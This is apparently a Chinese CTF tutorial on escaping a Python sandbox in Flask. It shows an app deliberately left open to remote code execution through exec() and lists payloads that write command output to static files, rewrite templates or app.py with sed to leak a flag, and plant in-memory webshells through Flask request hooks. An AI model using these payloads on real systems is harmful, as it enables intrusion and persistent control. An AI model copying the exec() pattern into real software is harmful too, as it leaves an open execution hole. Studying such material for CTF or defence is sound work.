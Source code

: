 ## python沙箱

沙箱环境是通过控制和限制代码的执行，保护系统免受恶意代码的危害。在 Flask 应用中，可能会通过如 `exec()`、`eval()` 或者其他动态执行代码的方式创建沙箱。这样的操作可能使得恶意用户能够通过注入代码进行远程代码执行 (RCE)。

### 题目：python沙箱1

```python
from flask import *

app = Flask(__name__)
@app.route('/rce', methods=['GET', 'POST'])
def rce():
    if request.method == 'POST':
        code = request.form['code']
        exec(code) #换成eval()呢？
    return render_template('rce.html')

if __name__ == '__main__':
    app.run(debug=True, host='0.0.0.0', port=5000)

#思考：要是没有static目录，怎么办？
```

沙箱里有globals()的全局变量与函数

#### 1.写静态目录 

```python
import os;os.system('ls >static/1') 
__import__('os').system('')#eval时适用
```

```python
#Fifker
import os
with open("static/test.txt",'w') as f:
	f.write(os.popen('dir').read())
```

#### 2.写templates/rce.html模板文件

#### 3.写app.py热加载

```
__import__('os').system("sed -i \"s/rce.html/`cat /f*`/\" rce.py")
```

#### 4.打内存马

```python
#HDdss
app._got_first_request=False;app.add_url_rule('/shell','shel1',lambda:'<pre>{0}</pre>'.format(import_('os').popen(request.args.get('cmd')).read()))

app.before_request_funcs.setdefault(None, []).append(lambda: __import__('os').popen('').read())

app.after_request_funcs.setdefault(None, []).append(lambda x: y if exec('import os;global y;y=make_response(os.popen("dir").read())')==None else x)
```
